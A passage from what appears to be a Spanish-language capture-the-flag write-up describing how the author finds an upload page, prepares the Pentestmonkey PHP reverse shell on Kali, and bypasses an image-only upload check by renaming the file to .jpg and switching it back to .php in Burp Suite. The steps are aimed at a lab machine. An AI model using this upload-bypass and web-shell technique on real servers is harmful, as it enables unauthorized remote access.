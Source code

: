 Pues hemos encontrado cositas, si revisamos /upload.php vemos una página para subir ficheros:

![](/assets/images/principle/upload.png){: .align-center}


### Reverse shell

Como ya podéis imaginar, este parece el vector de ataque. Así que intentaremos subir la típica reverse shell de [Pentestmonkey](https://pentestmonkey.net/tools/web-shells/php-reverse-shell) que podemos descargar desde esa URL. En nuestro caso como usamos Kali, ya viene incluida (hay que acordarse siempre de poner nuestra IP y el puerto deseado):

~~~bash
❯ locate php-reverse-shell
/usr/share/laudanum/php/php-reverse-shell.php
/usr/share/laudanum/wordpress/templates/php-reverse-shell.php
/usr/share/seclists/Web-Shells/laudanum-0.8/php/php-reverse-shell.php
/usr/share/webshells/php/php-reverse-shell.php
❯ cp /usr/share/webshells/php/php-reverse-shell.php rev.php
❯ nano rev.php
~~~

En este caso, no nos deja subirla así por la cara, nos muestra el error: "The file must be an image (JPEG, PNG or GIF)"

De esta forma, supongo que hay varias formas de bypassearlo, yo lo hago de la siguiente forma:

1. En primer lugar renombro la reverse shell como .jpg: `mv rev.php rev.jpg`
2. Ahora Burpsuite y capturo la petición
3. Renombro el fichero a .php y le doy a Forward

